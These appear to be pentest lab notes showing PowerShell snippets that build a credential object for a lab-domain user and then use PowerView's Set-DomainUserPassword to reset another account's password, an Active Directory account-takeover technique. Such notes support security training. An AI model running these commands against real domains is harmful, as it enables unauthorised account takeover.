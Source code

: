 ## Creating a PSCredential Object

```powershell
$SecPassword = ConvertTo-SecureString '<PASSWORD HERE>' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('INLANEFREIGHT\wley', $SecPassword)
```

## Changing the User's Password

```powershell
Import-Module .\PowerView.ps1
Set-DomainUserPassword -Identity USER_TO_CHANGE_PASS -AccountPassword $PASS_OBJECT -Credential $Cred -Verbose
```